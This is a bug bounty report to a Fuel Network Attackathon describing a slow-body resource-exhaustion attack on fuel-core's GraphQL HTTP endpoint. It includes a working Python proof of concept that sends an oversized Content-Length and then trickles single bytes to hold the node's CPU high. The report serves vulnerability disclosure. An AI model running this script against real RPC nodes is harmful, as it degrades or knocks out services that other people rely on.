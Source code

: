 
# increasing processing for public nodes with rpc

Submitted on Sat Jun 29 2024 20:16:55 GMT-0400 (Atlantic Standard Time) by @fnmain for [Attackathon | Fuel Network](https://immunefi.com/bounty/fuel-network-attackathon/)

Report ID: #32695

Report type: Blockchain/DLT

Report severity: Insight

Target: https://github.com/FuelLabs/fuel-core/tree/8b1bf02103b8c90ce3ef2ba715214fb452b99885

Impacts:
- Increasing network processing node resource consumption by at least 30% without brute force actions, compared to the preceding 24 hours
- increasing processing on public RPC nodes

## Description
## Brief/Intro
increasing the processing for the nodes that have the graphQL instance is possible by playing by content length and then sending byte per byte continually is able to elevate the nodes processing to 50% and with more connexions is able to elevate it to more (for at least 30s) which make bypassing the rate limit possible to maintain the attack on the targeted node

## Vulnerability Details
the built in http server if the content length have a huge value the connexion will stay open and the attacker can send whatever data he want but with sending byte each send operation we can freeze the processing at 50% with 1 operator for at least 30s

## Impact Details
elevating the processing on the targeted node ( possible pushing one server to out of service by performing a resource exhaust )

## References
Add any relevant links to documentation or code

        
## Proof of concept
## Proof of Concept
PoC:
```
import socket
from time import sleep as w

s=socket.socket()
vs = __import__("sys").argv
(H,P)=("127.0.0.1", 4000)

s.connect((H, P))
print("[+] connection estabilished")
headers = [
    "POST /v1/graphql-sub HTTP/1.1",
    "Host: 127.0.0.1:4000",
    "User-Agent: destroyer_v1.0",
    "Accept: */*",
    "Content-Type: application/json",
    f"Content-Length: {5*1024*1024}",
]

headers = "\r\n".join(headers)
req = f"{headers}\r\n\r\n"

#print(req);__import__("sys").exit()

s.send(req.encode())



def overflow():
    #__import__("time").sleep(5)
    ovbuf = "A"*1
    c = 0
    try:
        while True:
            print(c,end="\r")
            s.send(ovbuf.encode())
            c=c+1
    except:
        print(f"{str(c)} trys")

overflow()
print(s.recv(0x1337).decode())
```
